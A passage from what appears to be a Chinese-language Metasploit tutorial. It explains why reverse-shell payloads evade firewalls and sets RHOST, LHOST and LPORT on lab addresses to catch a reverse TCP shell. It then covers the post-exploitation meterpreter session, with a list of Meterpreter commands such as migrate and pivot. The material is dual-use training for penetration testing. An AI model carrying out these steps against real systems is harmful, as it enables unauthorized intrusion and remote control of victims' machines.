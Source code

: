 - 采用reverse的方法一般较为安全， 因为`是目标机主动连接攻击机`，所以一般不会被防火墙发现。
- 而采用bind的方法，`攻击机主动连接目标机`( 即需要在目标机上打开端口)时很容易被安全软件和防火墙发现。

3、查看模块需要配置的参数：

```apl
show options
```

![image-20250408161454008](https://gitee.com/ljh00928/csdn/raw/master/img/2aa96c8ba70c92a409210836faf49ced.png)

4、设置攻击载荷参数：

```apl
set RHOST 10.0.0.129   #设置RHOST，也就是要攻击主机的ip
set LHOST 10.0.0.128   #设置LHOST，也就是我们主机的ip，用于接收从目标机弹回来的shell
set lport 6666   #设置lport，也就是我们主机的端口，反弹shell到这个端口；如果我们这里不设置lport的话，默认是4444端口监听；
```

## 7.后渗透阶段：

运行了`exploit命令`之后，我们开启了一个`reverse TCP监听器`来监听本地的`6666`端口，即我（攻击者）的本地主机地址（LHOST）和端口号（LPORT）。运行成功之后，我们将会看到命令提示符 `meterpreter >` 出现，我们输入： shell 即可切换到目标主机的windows shell，要想从目标主机shell退出到 meterpreter ，我们只需输入：exit

![image-20250408161658071](https://gitee.com/ljh00928/csdn/raw/master/img/6f51c1905bc99ecaf6dbaca7f1b1d3b5.png)

　Meterpreter的命令用法：

```bash
Meterpreter > ?
==========================================
核心命令：
==========================================
命令                           说明
-------                       ------------
?                             帮助菜单
background                    把当前会话挂到后台运行
bg                            background命令的别名
bgkill                        杀死后台meterpreter 脚本
bglist                        列出正在运行的后台脚本
bgrun                         执行一个meterpreter脚本作为后台线程
channel                       显示信息或控制活动频道
close                         关闭一个频道
detach                        分离Meterpreter会话（用于 http/https）
disable_unicode_encoding      禁用 unicode 字符串的编码
enable_unicode_encoding       启用 unicode 字符串的编码
exit                          终止 Meterpreter 会话
get_timeouts                  获取当前会话超时值
guid                          获取会话 GUID
help                          帮助菜单
info                          显示有关 Post 模块的信息
irb                           在当前会话中打开一个交互式 Ruby shell
load                          加载一个或多个 Meterpreter 扩展
machine_id                    获取连接到会话的机器的 MSF ID
migrate                       将服务器迁移到另一个进程
pivot                         管理枢轴侦听器
pry                           在当前会话上打开 Pry 调试器
quit                          终止 Meterpreter 会话
read                          从通道读取数据
resource                      运行存储在文件中的命令
run                           执行一个 Meterpreter 脚本或 Post 模块
secure                       （重新）协商会话上的 TLV 数据包加密
sessions                      快速切换到另一个会话
set_timeouts                  设置当前会话超时值
sleep                         强制 Meterpreter 安静，然后重新建立会话
ssl_verify                    修改 SSL 证书验证设置
```